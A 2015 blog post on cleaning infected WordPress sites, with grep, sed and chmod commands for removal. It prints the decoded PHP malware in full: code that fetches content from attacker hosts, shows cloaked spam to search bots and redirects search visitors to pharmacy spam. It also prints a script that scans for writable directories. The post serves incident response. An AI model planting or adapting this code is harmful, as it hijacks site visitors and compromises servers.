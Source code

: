 ```yaml
---
layout: post
title: "Wordpress security cleanup notes"
date: 2015-03-13 19:31:53 -0400
comments: true
categories: ["security","wordpress"]
---
```

Infected PHP Pages:
I've been looking for infected php pages with this command:
{% highlight bash %}
find . -name "*.php" | xargs grep "gzinflate(base64_decode"
{% endhighlight %}
Basically, there's malicious code inserted into the beginning of the php script and it is base64 enconded and compressed so if you look at the file, the first line looks like garbarge.  There's a backdoor on the system that keeps it coming back. I remove it with the following one liner:
<!-- more -->
{% highlight bash %}
find -name "*.php" -exec sed -i '/<?.*eval(gzinflate(base64.*?>/ d' '{}' \; -print
{% endhighlight %}
Here's the code uncompressed and decoded:
{% codeblock lang:perl %}
<?php
<?php if (!defined('frmDs')) {
    define('frmDs', 1);
    error_reporting(0);
    function frm_dl($url) {
        if (function_exists('curl_init')) {
            $ch = curl_init($url);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
            $out = curl_exec($ch);
            if (curl_errno($ch) !== 0) $out = false;
            curl_close($ch);
        } else {
            $out = @file_get_contents($url);
        }
        return trim($out);
    }
    function frm_crpt($in) {
        $il = strlen($in);
        $o = '';
        for ($i = 0;$i < $il;$i++) $o.= $in[$i] ^ '*';
        return $o;
    }
    function frm_getcache($tmpdir, $link, $cmtime, $toe = false) {
        $f = $tmpdir . '/sess_' . md5(preg_replace('/^http:\/\/[^\/]+/', '', $link));
        $fe = file_exists($f);
        if (!$fe || time() - filemtime($f) > 60 * $cmtime) {
            $dlc = frm_dl($link);
            if ($fe && $dlc === false) @touch($f);
            else {
                if ($fe && empty($dlc) && $toe) {
                    @touch($f);
                } else {
                    if ($fp = @fopen($f, 'w')) {
                        fwrite($fp, frm_crpt($dlc));
                        fclose($fp);
                    } else {
                        return $dlc;
                    }
                }
            }
        }
        $fc = @file_get_contents($f);
        return ($fc) ? frm_crpt($fc) : '';
    }
    function frm_isbot() {
        $ua = @strtolower($_SERVER['HTTP_USER_AGENT']);
        if (($lip = ip2long($_SERVER['REMOTE_ADDR'])) < 0) $lip+= 4294967296;
        $rs = array(array(3639549953, 3639558142), array(1089052673, 1089060862), array(1123635201, 1123639294), array(1208926209, 1208942590), array(3512041473, 3512074238), array(1113980929, 1113985022), array(1249705985, 1249771518), array(1074921473, 1074925566), array(3481178113, 3481182206), array(2915172353, 2915237886), array(2850291712, 2850357247));
        foreach ($rs as $r) if ($lip >= $r[0] && $lip <= $r[1]) return true;
        if (!$ua) return true;
        $bots = array('googlebot', 'bingbot', 'slurp', 'msnbot', 'jeeves', 'teoma', 'crawler', 'spider');
        foreach ($bots as $b) if (strpos($ua, $b) !== false) return true;
        $h = @gethostbyaddr($_SERVER['REMOTE_ADDR']);
        $hba = array('google', 'msn', 'yahoo');
        if ($h) foreach ($hba as $hb) if (strpos($h, $hb) !== false) return true;
        return false;
    }
    function frm_tmpdir() {
        $fs = array('/tmp', '/var/tmp', './wp-content/cache', './wp-content/uploads', './tmp', './cache', './images');
        foreach (array('TMP', 'TEMP', 'TMPDIR') as $v) {
            if ($t = getenv($v)) {
                $fs[] = $t;
            }
        }
        if (function_exists('sys_get_temp_dir')) {
            $fs[] = sys_get_temp_dir();
        }
        $fs[] = '.';
        foreach ($fs as $f) {
            $tf = $f . '/' . md5(rand());
            if ($fp = @fopen($tf, 'w')) {
                fclose($fp);
                unlink($tf);
                return $f;
            }
        }
        return false;
    }
    function frm_seref() {
        $r = @strtolower($_SERVER["HTTP_REFERER"]);
        $ses = array('google', 'bing', 'yahoo', 'ask', 'aol');
        foreach ($ses as $se) if (strpos($r, $se . '.') != false) return true;
        return false;
    }
    function frm_havekey($s = false) {
        $nks = explode('|', 'abilify|albenza|aldactone|amoxil|antabuse|apcalis|atarax|baclofen|bactrim|bimatoprost|buspar|celebrex|celexa|cialis|cipro|clomid|desyrel|diflucan|doxycycline|elavil|erectalis|eriacta|erythromycin|finpecia|flagyl|glucophage|inderal|kamagra|lasix|levaquin|levitra|lexapro|megalis|mobic|motilium|nexium|nolvadex|orlistat|paxil|penisole|periactin|premarin|priligy|propecia|proscar|proventil|retin-a|robaxin|seroquel|silagra|sildalis|silvitra|strattera|stromectol|p-force|synthroid|tadacip|tadalis|tadapox|tenormin|tetracycline|topamax|valtrex|ventolin|viagra|vigora|wellbutrin|zanaflex|zenegra|zithromax|sildenafil|tadalafil|vardenafil|zovirax');
        $k = ($s == false) ? @strtolower($_SERVER["HTTP_REFERER"] . $_SERVER["REQUEST_URI"]) : $s;
        if (strpos($k, "site%3A") !== false || strpos($k, "inurl%3A") !== false) return '';
        foreach ($nks as $n) if (preg_match("/(|_)$n(|_)/", $k)) return $n;
        return '';
    }
    function frm_strtonum($Str, $Check, $Magic) {
        $Int32Unit = 4294967296;
        $length = strlen($Str);
        for ($i = 0;$i < $length;$i++) {
            $Check*= $Magic;
            if ($Check >= $Int32Unit) {
                $Check = ($Check - $Int32Unit * (int)($Check / $Int32Unit));
                $Check = ($Check < - 2147483648) ? ($Check + $Int32Unit) : $Check;
            }
            $Check+= ord($Str{$i});
        }
        return $Check;
    }
    function frm_chhash($String) {
        $Check1 = frm_strtonum($String, 0x1505, 0x21);
        $Check2 = frm_strtonum($String, 0, 0x1003F);
        $Check1 >>= 2;
        $Check1 = (($Check1 >> 4) & 0x3FFFFC0) | ($Check1 & 0x3F);
        $Check1 = (($Check1 >> 4) & 0x3FFC00) | ($Check1 & 0x3FF);
        $Check1 = (($Check1 >> 4) & 0x3C000) | ($Check1 & 0x3FFF);
        $T1 = (((($Check1 & 0x3C0) << 4) | ($Check1 & 0x3C)) << 2) | ($Check2 & 0xF0F);
        $T2 = (((($Check1 & 0xFFFFC000) << 4) | ($Check1 & 0x3C00)) << 0xA) | ($Check2 & 0xF0F0000);
        $Hashnum = ($T1 | $T2);
        $CheckByte = 0;
        $Flag = 0;
        $HashStr = sprintf('%u', $Hashnum);
        $length = strlen($HashStr);
        for ($i = $length - 1;$i >= 0;$i--) {
            $Re = $HashStr{$i};
            if (1 === ($Flag % 2)) {
                $Re+= $Re;
                $Re = (int)($Re / 10) + ($Re % 10);
            }
            $CheckByte+= $Re;
            $Flag++;
        }
        $CheckByte%= 10;
        if (0 !== $CheckByte) {
            $CheckByte = 10 - $CheckByte;
            if (1 === ($Flag % 2)) {
                if (1 === ($CheckByte % 2)) {
                    $CheckByte+= 9;
                }
                $CheckByte >>= 1;
            }
        }
        return '7' . $CheckByte . $HashStr;
    }
    function frm_chpr($url, $td) {
        $ch = frm_chhash($url);
        $res = frm_getcache($td, "http://toolbarqueries.google.com/tbr?client=navclient-auto&features=Rank&ch=$ch&q=info:$url", 60 * 24 * 7);
        if (($pos = strpos($res, "Rank_")) !== false) return substr($res, 9, 1);
    }
    function frm_red($k) {
        if (!frm_isbot() && frm_seref()) {
            $r = @urlencode($_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI']);
            $s = @urlencode($_SERVER['HTTP_REFERER']);
            die("<!DOCTYPE html><html><body><script>document.location=(\"http://178.73.212.30/stat/go.php?k=$k&s=$s&r=$r\");</script></body></html>");
        }
    }
    $tdir = frm_tmpdir();
    $isb = frm_isbot();
    $k = frm_havekey();
    $host = preg_replace('/^w{3}\./', '', strtolower($_SERVER['HTTP_HOST']));
    if ($cv = @$_POST[md5($host . 'ch') ]) {
        exit($cv);
    }
    if ($tdir && strlen($host) < 100 && !preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/', $host)) {
        $parg = substr(preg_replace('/[^a-z]+/', '', strtolower(base64_encode(md5($host . 'p1')))), 0, 3);
        $sp = "http://muqypnfsk.kwik.to/stat/feed.php?pa=$parg&h=$host";
        //
        $tp = $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
        if ($isb && ($ppr = frm_chpr($tp)) > 1) {
            $pc = frm_getcache($tdir, $sp . "&a=l&p=" . urlencode($tp) . "&pr=$ppr", 60 * 24);
            if ($pc) die($pc);
        }
        //
        $ruri = strtolower($_SERVER['REQUEST_URI']);
        $pageid = (isset($_GET[$parg])) ? $_GET[$parg] * 1 : 0;
        if ((strpos($ruri, '/?') === 0 || strpos($ruri, '/index.php?') === 0) && $pageid > 0) {
            frm_red($k);
            die(frm_getcache($tdir, $sp . "&p=$pageid", 60 * 24, true));
        }
        if (($ruri == '/' || $ruri == '/index.php') && $isb) {
            $c = frm_getcache($tdir, $sp, 60 * 24);
            if ($c) die($c);
        }
        //
        if ($k && $sdl = frm_getcache($tdir, $sp . "&a=s", ($isb ? 30 : 60 * 24 * 7), true)) {
            if (strpos($sdl, '|' . $ruri . '|') !== false) {
                frm_red($k);
                die(frm_getcache($tdir, $sp . "&a=s&p=" . urlencode($ruri), 60 * 24 * 7, true));
            }
        }
    }
    if ($k) frm_red($k);
}
{% endcodeblock %}
Another issue is with the .htaccess files being written to.  I search for all of the .htaccess files and check for strings that are know to me that are not supposed to be there.
{% highlight bash %}
find . -name "*.htaccess" | xargs grep "windows-media-player"
find . -name "*.htaccess" | xargs grep "moby"
find . -name "*.htaccess" | xargs grep "click"
{% endhighlight %}

The SEO spam was primarilly being generated from a forum directory that was created.  This is what most concerns me, so instead of removing the forum directory, and have it put back by a back door, I changed the permissons on the directory to be 000 or not readable, not writeable and not excutable for user, group and world.  I also changed the ownership to be owned by root and the group to be root so that the webserver can't write over it, or recreate it.  It also returns a 403 Permission denied when someone tries to access it.
{% highlight bash %}
find . -name "forum" | xargs ls -la

./wordpress/domain-one.com/htdocs/forum:
total 20
d--------- 2 root     root     4096 Mar 13 13:19 .
drwxr-xr-x 6 www-data www-data 4096 Mar 13 13:19 ..
-rwxr-xr-x 1 root     root       84 Mar  4 14:47 .htaccess
-rwxr-xr-x 1 root     root     4993 Mar 13 13:19 post.php
{% endhighlight %}

I'm performing md5hashes on a clean install of wordpress and comparing them to the equivilant files on the server.  This one liner, does it for all files in a directory.
{% highlight bash %}
for file in *; do md5sum $file; done
{% endhighlight %}

I found another malicious file called sopka.php
{% highlight bash %}
root@bserver:/var/www/wordpress# locate sopka.php | xargs md5sum
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domain-one.com/htdocs/sopka.php
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domaon-two.com/htdocs/sopka.php
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domain-three.com/htdocs/sopka.php
3800aa78d035d209cfaf64206cdcee6d  /var/www/wordpress/domain-four.com/htdocs/sopka.php
{% endhighlight %}
I chmod'd them all 000, this is the contents:
{% codeblock lang:perl %}
<?php
@ini_set('max_execution_time',0);
@set_time_limit(0);
function AllDir($Folder, &$Files){
   $result = scandir($Folder);
   foreach($result as $file){
       if ($file == '.' || $file == '..') continue;
       $FullPath = $Folder . '/' . $file;
       $Files[] = $FullPath;
       if (is_dir($FullPath)) AllDir($FullPath, $Files);}}
$StartDir = getcwd();
$Files = array();
$maxlen='hremjo';
AllDir($StartDir, $Files);
foreach($Files as $wf) {  //echo $wf."\n";
if (is_dir($wf) && is_writable($wf)){
if (strlen($maxlen)<=strlen($wf))$maxlen=$wf;
//echo $wf."\n";
}}echo 'rahui#',$maxlen,'#rahui';
?>
{% endcodeblock %}

There's also these malicous files, called sidebar.php and footer.php, I chmod'd them all to 000
{% highlight bash %}
locate sidebar.php | xargs grep bwinpoker
locate footer.php | xargs grep bwinpoker
{% endhighlight %}